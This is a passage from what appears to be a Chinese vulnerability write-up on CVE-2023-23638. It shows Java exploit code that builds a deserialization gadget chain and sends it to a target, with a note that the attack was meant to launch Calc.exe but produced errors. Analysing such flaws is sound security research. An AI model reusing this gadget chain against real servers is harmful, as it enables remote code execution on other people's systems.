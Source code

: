 ```java
    setValue(templates, "_bytecodes", bytes);
    setValue(templates, "_name", "test");
    setValue(templates, "_tfactory", null);
    JSONArray jsonArray = new JSONArray();
    jsonArray.add(templates);
    BadAttributeValueExpException val = new
            BadAttributeValueExpException(null);
    Field valfield = val.getClass().getDeclaredField("val");
    valfield.setAccessible(true);
    valfield.set(val, jsonArray);

    NativeJavaSerialization nativeJavaSerialization =new NativeJavaSerialization();
    UnsafeByteArrayOutputStream unsafeByteArrayOutputStream = new UnsafeByteArrayOutputStream();
    ObjectOutput o = nativeJavaSerialization.serialize(null,unsafeByteArrayOutputStream);
    o.writeObject(val);

    return unsafeByteArrayOutputStream.toByteArray();
}

send(getProperties());
send(getObject());
```

 程序先通过System.setProperties修改目标的序列化配置，然后再发送恶意的序列化代码，指定目标执行一个Calc.exe程序。结果程序报错了，报错如下：

![](img/CVE-2023-23638_1/image_HO65mXc32i.png)

![](img/CVE-2023-23638_1/image_5VIaNuuwmv.png)
